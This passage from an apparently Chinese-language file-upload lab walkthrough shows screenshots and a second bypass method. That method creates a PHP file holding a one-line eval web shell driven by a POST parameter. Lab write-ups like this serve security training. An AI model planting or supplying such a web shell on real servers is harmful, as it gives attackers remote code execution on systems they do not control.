 

+ 最后发现脚本成功执行

![Pass08_9](./img/Pass08_9.png)



### 方法二

+ 首先编写相应的脚本文件<code>EightSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['EightSecond']); ?>
~~~

![Pass08_4](./img/Pass08_4.PNG)
